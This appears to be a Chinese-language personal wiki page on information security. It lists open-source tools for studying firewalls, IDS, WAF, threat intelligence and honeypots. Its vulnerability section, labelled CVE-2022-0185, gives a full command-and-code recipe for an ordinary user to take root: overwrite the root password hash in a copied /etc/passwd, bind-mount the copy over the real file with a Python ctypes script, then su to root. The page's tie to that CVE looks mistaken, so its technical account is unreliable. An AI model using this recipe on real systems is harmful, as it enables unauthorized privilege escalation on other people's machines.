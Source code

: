 ```yaml
---
title: "信息安全"
linkTitle: "信息安全"
date: "2023-06-05T15:35"
weight: 1
---
```


# 概述

> 参考：

# 待总结

要研究态势感知或安全运营中心，可以采用OSSIM

要研究入侵防御技术，可以采用Snort或Security Onion

要研究防火墙技术，可以采用pfSense或OPNsense

要研究Web应用防火墙（WAF ），可以采用ModSecurity

要研究威胁情报技术，可以采用MISP或OpenCTI

要研究漏洞扫描技术，可以采用OpenVAS或W3AF

要研究堡垒机技术，可以采用JumpServer

要研究蜜罐技术，可以采用T-Pot或Hfish

# 历史漏洞

## CVE-2022-0185

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0185) 漏洞，通过如下操作，可以让普通用户直接重置 root 密码。主要利用的是 bind mount 功能，将 /etc/passwd 文件覆盖

```bash
$ cd ~
$ cp /etc/passwd ./
$ openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/

# 将第一行的 root:x 改为 root:$1$abc$BXBqpb9BZcZhXLgbee.0s/
$ head -2 passwd
root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin


$ cat mount-passwd.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"<HOME>/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)

把上面的 <HOME> 换成你的 home 目录

$ python3 mount-passwd.py

$ su root 
输入密码：password
```

# 信息安全历史

[B 站，俄罗斯黑客的激荡三十年](https://www.bilibili.com/video/BV1uu4y1X7FX?spm_id_from=333.1245.0.0)